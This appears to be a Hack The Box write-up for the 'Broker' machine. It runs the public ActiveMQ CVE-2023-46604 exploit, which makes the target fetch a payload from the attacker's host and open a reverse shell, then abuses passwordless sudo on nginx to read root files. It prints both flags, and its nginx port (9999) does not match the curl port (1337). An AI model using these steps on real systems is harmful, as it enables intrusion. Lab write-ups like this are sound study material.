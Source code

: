 ```yaml
---
layout: post
title: Broker HTB - Writeup
categories: [HTB]
tags: [htb,web,htb easy]
img_path: /images/htb/easy/broker/
image:
  path: icon.png
---
```


Another easy, (and my first retired) machine!

**Machine created by:** [TheCyberGeek](https://app.hackthebox.com/users/114053)

## Recon

Let's start with a port scan:

```
$ sudo nmap 10.10.11.243 --top-ports 2500
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-05 07:20 AEDT
Nmap scan report for 10.10.11.243
Host is up (0.014s latency).
Not shown: 2492 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
1337/tcp  open  waste
1883/tcp  open  mqtt
5672/tcp  open  amqp
9001/tcp  open  tor-orport
9003/tcp  open  unknown
61613/tcp open  unknown
```

Let's setup an entry in `/etc/hosts`

```
10.10.11.243 broker.htb
```

Visiting [broker.htb](http://broker.htb:80) prompts authentication, which out of instinct I inputted `admin:admin` and it succeeded :p

![Main](main.png)

## Exploitation

Looking for CVEs on ActiveMQ I found [CVE-2023-46604 RCE PoC](https://github.com/evkl1d/CVE-2023-46604) and I setup a listener.

```
$ pwncat-cs
[16:41:49] Welcome to pwncat 🐈!
(local) pwncat$ listen --host -m linux 10.10.***.*** 4444
[16:41:53] new listener created for 10.10.***.***:4444
(local) pwncat$
```

After cloning the PoC I edited the XML to be my private IP and port, then hosted it locally using `python3 -m http.server`.

I then ran the PoC:

```
$ python3 exploit.py -i 10.10.11.243 -p 61616 -u http://10.10.***.***:8000/poc.xml
     _        _   _           __  __  ___        ____   ____ _____
    / \   ___| |_(_)_   _____|  \/  |/ _ \      |  _ \ / ___| ____|
   / _ \ / __| __| \ \ / / _ \ |\/| | | | |_____| |_) | |   |  _|
  / ___ \ (__| |_| |\ V /  __/ |  | | |_| |_____|  _ <| |___| |___
 /_/   \_\___|\__|_| \_/ \___|_|  |_|\__\_\     |_| \_\\____|_____|

[*] Target: 10.10.11.243:61616
[*] XML URL: http://10.10.***.***:8000/poc.xml

[*] Sending packet: 000000711f000000000000000000010100426f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e436c61737350617468586d6c4170706c69636174696f6e436f6e7465787401001e687474703a2f2f31302e31302e31362e393a383030302f706f632e786d6c
```

And I recieve a response!

```
[07:28:01] 10.10.11.243:49786: registered new host w/ db
           listener: 10.10.16.9:4444: linux session from 10.10.11.243:49786
           established
```

## User Flag

I then see I'm the user `activemq` and read the user flag.

```
(remote) activemq@broker:/opt/apache-activemq-5.15.15/bin$ cat /home/activemq/user.txt
c8293361b3c30407ee77164ebe96aa6d
```

And there's the user flag! <mark>c8293361b3c30407ee77164ebe96aa6d</mark>

## Root Flag

Running `sudo -l` shows an entry:
```
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

Looking at the options for `nginx` we can supply a custom config:

```
$ sudo /usr/sbin/nginx
nginx version: nginx/1.18.0 (Ubuntu)
Usage: nginx [-?hvVtTq] [-s signal] [-c filename] [-p prefix] [-g directives]

Options:
  -?,-h         : this help
  -v            : show version and exit
  -V            : show version and configure options then exit
  -t            : test configuration and exit
  -T            : test configuration, dump it and exit
  -q            : suppress non-error messages during configuration testing
  -s signal     : send signal to a master process: stop, quit, reopen, reload
  -p prefix     : set prefix path (default: /usr/share/nginx/)
  -c filename   : set configuration file (default: /etc/nginx/nginx.conf)
  -g directives : set global directives out of configuration file

```

We can make a new config in `/tmp/newconf.conf` (documentation from [Nginx Docs](https://www.nginx.com/resources/wiki/start/topics/examples/full/)):

```
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 9999;
        root /;
    }
}
```

and then just read the root flag!

```
$ curl -L "http://localhost:1337/root/root.txt"
353a4607eef11ca5b7e6cff7464afd66
```

There's the root flag! <mark>353a4607eef11ca5b7e6cff7464afd66</mark>

![Success](submitted.png)

## Thanks for reading!
Feel free to give me feedback or follow me on [Twitter](https://twitter.com/sealldev).